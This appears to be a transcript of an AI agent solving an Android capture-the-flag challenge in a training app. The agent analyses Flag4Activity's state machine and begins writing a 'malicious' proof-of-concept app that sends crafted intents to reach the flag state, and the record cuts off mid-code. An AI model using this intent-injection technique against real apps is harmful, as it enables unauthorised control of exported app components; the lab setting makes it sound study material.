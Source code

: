 --- Parsed Reasoning/Thought ---
Okay, I have the code for `Flag4Activity`. It appears to be a state machine. Here's the breakdown:

*   **States:** `INIT`, `PREPARE`, `BUILD`, `GET_FLAG`, `REVERT`
*   **Actions:** `PREPARE_ACTION`, `BUILD_ACTION`, `GET_FLAG_ACTION`, `INIT_ACTION`
*   **Goal:** To reach the `GET_FLAG` state and then trigger the `success(this)` method.

The `stateMachine` method handles state transitions based on the current state and the received intent's action. The `getCurrentState` and `setCurrentState` methods use `SolvedPreferences` to persist the state.

Here's the path to the solution:

1.  Start in `INIT` state. Send `PREPARE_ACTION` to transition to `PREPARE`.
2.  Send `BUILD_ACTION` to transition to `BUILD`.
3.  Send `GET_FLAG_ACTION` to transition to `GET_FLAG`.
4.  Once in `GET_FLAG` state, the code checks for `i == 4`. This condition is met, and it executes:
    *   `this.f179f.addTag(State.GET_FLAG);`
    *   `setCurrentState(State.INIT);`
    *   `success(this);`
    *   `Log.i("Flag4StateMachine", "solved");`

The vulnerability is that we can control the state transitions by sending specific intents with the correct actions.

Now, let's construct the malicious Android application to exploit this.

--- Tool Call ---
write_to_file({'content': 'package com.example.maliciousflag4poc;\n'
            '\n'
            'import android.app.Activity;\n'
            'import android.content.ComponentName;\n'
            'import android.content.Context;\n'
            'import android.content.Intent;\n'
            'import android.os.Bundle;\n'
            'import android.util.Log;\n'
            '\n'
            'public class MaliciousFlag4PoC extends Activity {\n'
            '\n'
            '    private static final String TARGET_PACKAGE = '
            '"io.hextree.attacksurface";\n'
            '    private static final String TARGET_ACTIVITY = '
            '"io.hextree.attacksurface.activities.Flag4Activity";\n'
            '\n'
            '    @Override\n'
            '    protected void onCreate(Bundle savedInstanceState) {\n'
            '        super.onCreate(savedInstanceState);\n'
            '\n'
            '        // Step 1: PREPARE_ACTION\n'
            '        sendAction("PREPARE_ACTION");\n'
            '\n'
            '        // Step 2: BUILD_ACTION\n'
            '        sendAction("BUILD_ACTION");\n'
            '\n'
            '        // Step 3: GET_FLAG_ACTION\n'
            '        sendAction("GET_FLAG_ACTION");\n'
            '\n'
            '        // Step 4: Trigger success\n'
            '        sendAction("");\n'
            '\n'
            '        Log.i("MaliciousFlag4PoC", "Exploit completed");\n'
            '        finish();\n'
            '    }\n'
            '\n'
            '    private void sendAction(String action) {\n'
            '        Intent intent = new Intent();\n'
            '        intent.setComponent(new ComponentName(TARGET_PACKAGE, '